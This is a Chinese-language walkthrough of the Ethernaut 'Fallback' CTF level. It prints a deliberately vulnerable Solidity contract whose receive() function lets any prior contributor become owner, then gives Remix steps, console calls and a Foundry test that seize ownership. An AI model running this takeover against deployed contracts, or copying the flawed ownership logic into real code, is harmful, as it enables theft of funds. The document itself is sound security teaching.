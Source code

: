 参加残酷共学打卡活动，记录一下这段时间的收获

## 目标

获取合约的控制权

## 漏洞合约

先来看漏洞合约本身，简单概括其核心功能：

1. **constructor**: 合约部署者在部署时赞助了 1000 个ether
2. **contribute**: 用户可以调用 contribute 函数对活动合约进行赞助，当赞助额度累计大于一开始的合约部署者时，合约拥有者更新为最大赞助者
3. **withdraw:** 由函数修饰符限制，只有合约拥有者能提现所有赞助
4. **receive:** 合约收到转账时触发的处理函数，当用户转给合约的赞助大于0，且在合约中记录的赞助大于0时，合约拥有者更新为该调用者

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {
    mapping(address => uint256) public contributions;
    address public owner;

    constructor() {
        owner = msg.sender;
        contributions[msg.sender] = 1000 * (1 ether);
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }

    function getContribution() public view returns (uint256) {
        return contributions[msg.sender];
    }

    function withdraw() public onlyOwner {
        payable(owner).transfer(address(this).balance);
    }

    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
}
```

## 思路

在合约中，可以看到，更新 owner 的操作只有两个地方：

1. contribute: 需要比最高赞助商更高，正常获取合约控制权，这需要至少 1000 ether
2. receive: 只需要余额大于0，且给合约赞助过即可

那么，很显然，我们需要想办法触发 receive 函数，我们先来看 receive 函数特性

```
           receive ETH
              |
         msg.data is empty?
            /  \\
          yse    no
          /      \\
has receive()?   fallback()
        / \\
       yes  no
      /     \\
receive()   fallback()
```

我们可以看到，只有在不存在 msg.data，只发送 eth 时会触发 receive 函数。

## Remix 测试

首先我们在 remix 中部署这个合约， 然后交互

1. 部署合约，此时的 owner 为部署者地址

   ![image-20240904003823592](../pict/1.png)

2. 使用第二个地址调用 contribute 函数赞助,这里赞助值不能高于0.001ether,也就是1 Finey

   ![image-20240904003823592](../pict/2.png)

3. 查看当前的赞助余额大于 0

   ![image-20240904003823592](../pict/3.png)

4. 发送 eth

   ![image-20240904003823592](../pict/4.png)

5. 调用，注意，这里，calldata 即为要发送的 msg.data 值，这里不可以填

   ![image-20240904003823592](../pict/5.png)查看合约 owner，成功改变

   ![image-20240904003823592](../pict/6.png)

## console

控制台交互：

1. 赞助

```
await contract.contribute({value:1})
```

1. 发送ethe

```solidity
await contract.sendTransaction({value:1})
```

## foundry 复现

### 1. 测试脚本

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Test, console} from "forge-std/Test.sol";
import {Fallback} from "../src/Fallback.sol";

contract FallbackTest is Test {
    Fallback public fallbackDemo;
    address public owner;
    address attacker = vm.addr(1);

    function setUp() external {
        fallbackDemo = new Fallback();
        console.log(1, fallbackDemo.owner());
        payable(attacker).call{value: 1 ether}("");
    }

    function test_receive() public {
        vm.startPrank(attacker);
        fallbackDemo.contribute{value: 0.0001 ether}();
        console.log(2, fallbackDemo.owner());
        address payable addr = payable(address(fallbackDemo));
        (bool success,) = addr.call{value: 0.0001 ether}("");
        console.log(3, fallbackDemo.owner());
        assertEq(fallbackDemo.owner(), attacker, "attack failed");
    }
}
```

### 2. 要点

这里主要涉及三个部分：

1. **startPrank 作弊码：**

   作弊码是 Foundry 特有的属性，由于 Foundry 所有脚本采用 Solidity 交互，因此，Foundry 内置了很多可供 Solidity 以外操作的作弊码，比如更改区块号，切换调用用户身份等。这里的 `startPrank` 就可以用于切换用户身份

   ```solidity
   function startPrank(address) external;
   function startPrank(address sender, address origin) external;
   ```

   这个函数指，从调用开始，直到遇到 `stopPrank` ，否则其后的调用者或者 tx.origin 都会是指定地址

   当然，对应的，其实也可以使用 **`prank`**

   ```solidity
   function prank(address) external;
   function prank(address sender, address origin) external;
   ```

   这个作弊码，只会改变其后的一次调用

2. **addr:**

   ```solidity
   function addr(uint256 privateKey) external returns (address);
   ```

   这个作弊码，实际上相当于可以根据你输入私钥生成地址，我们测试中将 1 作为私钥生成了对应地址

3. **call 函数的使用：**

   Solidity 中，向指定地址发送 eth 可以使用三种函数 `transfer`、`call`、`send`

   ```solidity
   // {value:} 要发送的数量
   // ("") msg.data，这里为空
   payable(address).call{value: 0.0001 ether}("");
   ```

   <aside> 💡


   实际上， **`call`** 不仅可以发送 eth，还能通过 msg.data 的形式去实现函数调用

   </aside>

### 3. 测试

终端输入

```solidity
forge test --match-path test/Fallback.t.sol -vvvv
```

可以看到，最终在攻击后打印出的 owner 和前两次打印值不一样

![image-20240904004054654](../pict/image-20240904004054654.png)